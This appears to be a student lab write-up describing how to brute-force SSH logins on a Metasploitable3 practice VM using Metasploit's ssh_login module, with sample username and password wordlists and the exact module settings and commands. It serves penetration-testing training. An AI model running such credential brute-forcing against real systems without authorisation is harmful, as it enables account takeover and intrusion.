 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

![user.txt & pass.txt files creation](screanshots/filesUserAndPass.png)

use ``` nano [name of the text file].txt ``` to edit the content of the file, add random usernames and passwords.

### users.txt content

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt contant
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```
![set](screanshots/Settters.png)

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)










